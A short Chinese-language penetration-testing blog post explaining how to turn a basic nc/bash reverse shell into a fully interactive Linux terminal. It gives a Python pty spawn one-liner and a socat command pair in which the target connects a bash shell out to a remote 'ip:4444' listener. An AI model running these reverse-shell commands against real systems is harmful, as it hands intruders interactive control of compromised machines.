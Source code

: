 ```yaml
---
title: "获得 Linux 交互式 Shell"
date: 2018-02-16T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



利用 nc bash 反弹的 shell 虽然能执行一些基本的命令.

但对于 su sudo vim 这些需要交互的程序 就没有什么卵用.

`su: must be run from a terminal`

<!--more-->

## python

Python 中的 pty 库可以衍生一个原生的终端.

`python -c 'import pty;pty.spawn("/bin/bash")'`

## socat

socat (netcat pro).

`Server: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:4444`
`Client: socat file:[反引号]tty[反引号],raw,echo=0 tcp-listen:4444`